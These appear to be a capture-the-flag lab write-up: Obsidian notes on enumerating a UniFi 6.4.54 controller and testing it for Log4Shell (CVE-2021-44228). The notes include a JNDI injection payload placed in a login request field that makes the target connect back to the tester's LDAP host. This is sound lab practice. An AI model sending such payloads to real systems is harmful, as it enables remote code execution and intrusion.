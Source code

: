 ```bash
Completed NSE at 19:00, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 158.01 seconds

```
---
### WEBSITE ENUM
---
Navigate to 10.129.40.113:8080 on firefox.

Redirected to 

```
https://10.129.40.113:8443/manage/account/login?redirect=%2Fmanage
```

See Uniif login page

![[Pasted image 20220929062258.png]]

Google 
```
UniFy 6.4.54 exploit
```

Find [Another Log4j on the fire: Unifi](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi)

It discuses [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

Additional resource [What’s Going on With Log4j?](https://www.hackthebox.com/blog/Whats-Going-On-With-Log4j-Exploitation)

Open [BurpSuite](obsidian://open?vault=OSCP&file=TOOLS%2FBurp%20Suite%2FHow-to) and try out FoxProxy plugin.

Enable proxy and wait for results

---
## Foothold
---
Login into site with test:test to capture POST
>![[Pasted image 20220929063923.png]]

We input the payload into the remember field as shown above so that we can identify an injection point if  one exists. If the request causes the server to connect back to us, then we have verified that the application is vulnerable.

```bash
${jndi:ldap://10.10.15.168/whatever}
```

>**JNDI** is the acronym for the **Java Naming and Directory Interface API** . By making calls to this API,  applications locate resources and other program objects. A resource is a program object that provides  connections to systems, such as database servers and messaging systems.  
